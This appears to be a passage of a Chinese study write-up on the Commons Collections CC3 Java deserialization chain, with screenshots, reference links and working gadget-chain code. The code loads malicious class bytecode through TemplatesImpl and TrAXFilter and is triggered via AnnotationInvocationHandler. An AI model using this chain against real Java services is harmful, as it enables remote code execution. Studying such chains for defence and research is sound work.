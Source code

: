 <img width="2559" height="1539" alt="image" src="https://github.com/user-attachments/assets/b018a34b-d99d-4cdf-89fb-b413eee02ea0" />

最后还是可以结合CC1的ChainedTransformer来执行调用，

但是这条链子没有用到InvokerTransformer也没有直接调用Runtime，而是通过加载自己编写的恶意类的字节码来达到的代码执行。


<img width="2559" height="1539" alt="image" src="https://github.com/user-attachments/assets/22a4b22d-af37-414f-b3c9-ec5c93e7d1a2" />


        TemplatesImpl templates = new TemplatesImpl();
        Class TemplateClass = templates.getClass();
        Field name = TemplateClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "123");

        Field bytecodes = TemplateClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\code-audit\\CC3\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodes.set(templates,codes);

        Field tfactory = TemplateClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer,


        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap();
        map.put("value", "test");
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);
        Class aClass = forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandlerConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        Object o = annotationInvocationHandlerConstructor.newInstance(Target.class, transformedMap);
        serialize(o);

        unserialize("ser.bin");

参考连接：

https://www.bilibili.com/video/BV1yP4y1p7N7
https://blog.csdn.net/qq_45305211/article/details/142443149
